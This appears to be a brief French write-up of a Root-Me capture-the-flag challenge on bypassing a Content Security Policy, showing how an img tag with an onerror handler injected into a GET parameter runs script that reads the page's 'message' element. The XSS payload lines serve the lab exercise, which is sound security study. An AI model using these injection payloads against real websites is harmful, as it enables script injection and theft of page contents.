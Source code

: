 # Challenge root me CSP

## Analyse
    - On s'aperçoit qu'il y a un formulaire de type GET
    - Lorsque l'on essaie d'y mettre du code on est redirigé sur une page qui semble detecter les balises scripts à cause des csp
    - on va donc insérer notre code à l'aide de balise html

## Exploitaiton
> ?user= `<img src=x onerror="code malveillant" />`

On se rend compte que le code fonctionne on peut donc l'exploiter pour y passer du code malveillant

Le but est : `Exfiltrez le contenu de la page !`

### Récupérer le code de la page
> document.body.innerHTML

> plus précie: document.getElementsByClassName("message")[0].innerHTML

### Inclure dans l'url
> `<img src=x onerror='alert(document.getElementsByClassName("message")[0].innerHTML);' >`

